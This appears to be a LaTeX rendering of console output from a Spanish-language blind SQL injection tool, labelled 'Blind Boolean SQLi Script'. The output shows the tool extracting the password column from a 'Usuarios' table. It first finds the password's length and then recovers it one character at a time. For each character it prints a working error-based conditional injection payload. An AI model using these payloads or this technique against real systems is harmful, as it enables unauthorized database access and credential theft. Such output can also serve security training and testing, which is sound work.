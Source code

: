 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[style=console, basicstyle=\ttfamily\footnotesize]
    ___  ___         __    ___            __            
   / _ )/ (_)__  ___/ /   / _ )___  ___  / /__ ___ ____ 
  / _  / / / _ \/ _  /   / _  / _ \/ _ \/ / -_) _ `/ _ \
 /____/_/_/_//_/\_,_/   /____/\___/\___/_/\__/\_,_/_//_/
    ________    __   ____       ____        _      __      
   / __/ __ \  / /  /  _/      / __/_______(_)__  / /_     
  _\ \/ /_/ / / /___/ /      _\ \/ __/ __/ / _ \/ __/     
 /___/\___\_\/____/___/     /___/\__/_/ /_/ .__/\__/      
                                         /_/             
 Selecciona qué deseas extraer de la BD:
 1. Usuarios
 2. Contraseñas
 Opción (1 o 2): 2
 
 [+] Extrayendo datos para la fila 1...
 
 [+] Determinando la longitud de 'password' para la fila 1...
 FAIL Probando longitud 1 para la fila 1...
 FAIL Probando longitud 2 para la fila 1...
 FAIL Probando longitud 3 para la fila 1...
 FAIL Probando longitud 4 para la fila 1...
 FAIL Probando longitud 5 para la fila 1...
 FAIL Probando longitud 6 para la fila 1...
 FAIL Probando longitud 7 para la fila 1...
 FAIL Probando longitud 8 para la fila 1...
 FAIL Probando longitud 9 para la fila 1...
 FAIL Probando longitud 10 para la fila 1...
 OK Probando longitud 11 para la fila 1...
 [*] La longitud de 'password' en la fila 1 es: 11
 
 [+] Extrayendo el valor de 'password' para la fila 1...
 
 [+] Extrayendo carácter 1 de 11 para la fila 1...
 OK Carácter 1: 'p' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 1, 1) = 'p') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 2 de 11 para la fila 1...
 OK Carácter 2: 'a' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 2, 1) = 'a') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 3 de 11 para la fila 1...
 OK Carácter 3: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 3, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 4 de 11 para la fila 1...
 OK Carácter 4: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 4, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 

\end{lstlisting}
\end{document}
